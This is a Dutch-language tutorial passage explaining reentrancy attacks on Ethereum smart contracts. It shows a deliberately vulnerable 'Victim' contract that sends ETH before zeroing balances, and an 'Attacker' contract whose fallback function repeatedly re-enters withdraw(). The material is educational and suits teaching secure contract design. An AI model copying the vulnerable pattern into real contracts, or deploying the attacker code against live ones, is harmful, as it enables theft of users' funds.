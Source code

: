 Denk aan een eenvoudig smart contract ('Victim') waarmee iedereen Ether kan storten en opnemen:

```solidity
// This contract is vulnerable. Do not use in production

contract Victim {
    mapping (address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Dit contract heeft een `withdraw()`-functie waarmee gebruikers ETH kunnen opnemen die ze eerder in het contract hebben gestort. Bij het verwerken van een opname voert het contract de volgende handelingen uit:

1. Controleert het ETH-saldo van de gebruiker
2. Stuurt middelen naar het oproepadres
3. Zet zijn/haar saldo terug op 0, zodat er geen middelen meer kunnen worden opgenomen van de gebruiker

De `withdraw()`-functie in het `Victim`-contract volgt een “controles-interacties-effecten”-patroon. Het _controleert_ of aan de voorwaarden voor uitvoering is voldaan (d.w.z. de gebruiker heeft een positief ETH-saldo) en voert de _interactie_ uit door ETH naar het adres van de oproeper te sturen, voordat de _effecten_ van de transactie worden toegepast (d.w.z. het saldo van de gebruiker wordt verlaagd).

Als `withdraw()` wordt opgeroepen vanaf een account in externe eigendom (EOA), wordt de functie uitgevoerd zoals verwacht: `msg.sender.call.value()` stuurt ETH naar de oproeper. Maar als `msg.sender` een smart contract-account is dat `withdraw()` aanroept, zal het verzenden van middelen met `msg.sender.call.value()` ook code activeren die op dat adres is opgeslagen om uit te voeren.

Stel dat dit de code is die wordt ingezet op het contractadres:

```solidity
 contract Attacker {
    function beginAttack() external payable {
        Victim(victim_address).deposit.value(1 ether)();
        Victim(victim_address).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(victim_address).withdraw();
        }
    }
}
```
